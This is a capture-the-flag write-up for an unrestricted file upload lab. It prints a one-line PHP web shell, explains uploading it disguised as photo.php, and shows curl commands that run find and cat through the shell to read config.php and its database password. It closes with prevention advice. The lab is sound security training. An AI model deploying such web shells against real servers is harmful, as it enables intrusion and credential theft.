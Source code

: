
---

# Unrestricted File Upload Challenge writeup

## Introduction
In this writeup I will guide you through on identifying the vulnerability and uploading a malicious file to obtain access to server files

## Objective
This lab contains a Unrestricted File Upload vulnerability. The application has an image upload function, but the uploaded file content or type is not checked on the server.

To complete the lab, upload a malicious PHP script and read the "config.php" file.

What is the database password in the config.php file?

## Example website
```
https://correct-phoenix.europe1.hackviser.space/ 
```
The link will change/be different for you

## Tools used

- **Web Browser/Curl:** 
- **PHP Script:** 
- **Command Line Tools:**

---

## Steps to Exploit

### Step 1: Crafting the Malicious File

Firstly when accessing the site playing around with the website then seeing the page source it had no method in validating the file and file extension (ex: png, jpg, & ect)

With that we create a malicious file to upload onto the website

```php
<?php
  echo shell_exec($_GET['cmd']);
?>
```
The script itself allows us to use the file to execute cmd/terminal commands through accessing the file through the uploaded link 

I saved this as `photo.php` to exploit the improper validation of file extensions

---

### Step 2: Uploading the Malicious File

Using the website's upload feature I uploaded `photo.php` The application processed the file without error showing us success in "bypassing the file validation system"

If you didnt notice already the link extension to the uploaded files is `/uploads/`

---

### Step 3: Executing the Malicious File

With the script uploaded I accessed via link

```plaintext
https://correct-phoenix.europe1.hackviser.space/uploads/photo.php
```

To test I used the command command `https://correct-phoenix.europe1.hackviser.space/uploads/photo.php?cmd=ls` to list the directory files to view other files previously uploaded or not accessible by a normal user

It worked meaning we can execute terminal commands onto the server

---

### Step 4: Locating the config.php File

To locate the `config.php` file I used the `find` command that scans the entire server for the file name

```bash
find / -type f -name "config.php" 2>/dev/null
```

```bash
curl 'https://correct-phoenix.europe1.hackviser.space/uploads/photo.php?cmd=find%20/%20-type%20f%20-name%20%22config.php%22%202%3E/dev/null'
```

This command located the file at `/var/www/html/config.php`

---

### Step 5: Reading the config.php File

Finally we can read the contents of the target file `config.php` using:

```bash
curl 'https://correct-phoenix.europe1.hackviser.space/uploads/photo.php?cmd=cat%20/var/www/html/config.php'
```

This gives us the output of the php file containing the database information stored within the file

```php
‹?php
tryt
$host = 'localhost';
$db_name = 'hv_database' ;
$charset = 'utf8';
$username = 'root';
$password = '8jv77mvXwR7LVU5v ' ;
$db = new PDO ("mysql:host=$host;dbname=$db_name; charset=$charset", Susern
ame, $password);
} catch (PDOException $e){
}
?>
```

---

# Flag

```
8jv77mvXwR7LVU5v
```

---

## Recommendations to prevent this happening

- **Validate file types both by extension and MIME types**
- **Implement file content checking to prevent malicious uploads**
- **Restrict executable permissions in upload directories**

---

